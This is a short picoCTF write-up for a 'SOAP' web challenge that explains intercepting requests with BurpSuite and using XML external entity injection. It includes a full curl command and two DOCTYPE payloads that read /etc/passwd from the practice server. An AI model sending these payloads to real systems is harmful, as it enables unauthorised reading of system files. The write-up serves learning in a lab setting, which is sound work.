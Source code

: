 # SOAP

**Flag:** ``

Approach

- step 1<br>
We can intercept the request using BurpSuite to modify it.

- step 2<br>
We can make use of an XXE injection to interfere with the site's processing of the XML data.


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/SOAP.png)



What you learned through solving this challenge:
<br>
- We learned about XXE injection and the different payloads.

Other incorrect methods you tried:
<br>
- Tried inspecting cURL,didnt get response.

```
curl -X POST http://saturn.picoctf.net:54219/data \
     -H "Content-Type: application/xml" \
     -H "Accept-Language: en-GB,en;q=0.9" \
     -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36" \
     -H "Accept: */*" \
     -H "Origin: http://saturn.picoctf.net:54219" \
     -H "Referer: http://saturn.picoctf.net:54219/" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Connection: keep-alive" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE data [
              <!ENTITY xxe SYSTEM "file:///etc/passwd">
          ]>
          <data>
              <ID>&xxe;</ID>
          </data>'
```


- Payloads tried:
  - <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  - <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>



References
<br>
-[XXE](https://portswigger.net/web-security/xxe)

